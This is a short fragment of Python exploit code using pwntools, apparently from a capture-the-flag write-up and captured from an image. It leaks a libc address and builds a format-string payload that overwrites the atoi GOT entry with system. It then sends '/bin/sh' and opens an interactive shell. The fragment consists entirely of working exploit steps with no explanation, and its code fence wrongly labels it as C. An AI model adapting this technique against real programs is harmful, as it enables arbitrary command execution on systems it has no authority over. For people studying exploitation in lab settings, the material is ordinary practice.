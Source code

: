 ```c

libc_leak = p.recvuntil(b'Sc')
libc.address = int(libc_leak[:-2],16) - 0x2a1ca
log.info(f'libc: {hex(libc.address)}')

write = {
        exe.got.atoi : libc.sym.system
        }
payload = fmtstr_payload(6,write)
p.sendline(b'+')
p.sendafter(b'name: ',payload)


p.sendline(b'1')
p.sendafter(b'Enter your guess: ',b'/bin/sh\x00')
p.interactive()
```



